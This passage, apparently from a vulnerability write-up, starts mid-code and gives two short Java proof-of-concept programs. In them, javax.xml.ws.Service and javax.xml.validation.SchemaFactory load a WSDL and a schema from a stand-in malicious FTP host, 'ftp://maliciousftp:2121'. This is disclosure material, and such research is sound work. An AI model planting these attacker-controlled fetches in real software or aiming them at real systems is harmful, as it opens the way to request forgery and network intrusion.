 ```
   e.printStackTrace();
  }
 }
}
```

## javax.xml.ws.Service Proof of Concept

```
import java.net.MalformedURLException;
import java.net.URL;

import javax.xml.namespace.QName;
import javax.xml.ws.Service;

public class CreateService {
 public static void main(String[] args) {
  String wsdlURL = "ftp://maliciousftp:2121/test?wsdl";
  String namespace = "http://foo.bar.com/webservice";
  String serviceName = "SomeService";
  QName serviceQN = new QName(namespace, serviceName);

  try {
   Service service = Service.create(new URL(wsdlURL), serviceQN);
  } catch (MalformedURLException e) {
   e.printStackTrace();
  }
 }

}
```

## javax.xml.validation.Schema Proof of Concept

```
import java.net.MalformedURLException;
import java.net.URL;

import javax.xml.validation.Schema;
import javax.xml.validation.SchemaFactory;

import org.xml.sax.SAXException;

public class NSchema {
 public static void main(String[] args) {
  SchemaFactory schemaFactory =
 SchemaFactory.newInstance("http://www.w3.org/2001/XMLSchema");
  URL url;
  try {
   url = new URL("ftp://maliciousftp:2121/schema");
   try {
    Schema schemaGrammar = schemaFactory.newSchema(url);
   } catch (SAXException e) {
    e.printStackTrace();
   }
  } catch (MalformedURLException e) {
   e.printStackTrace();
  }
 }
}
```
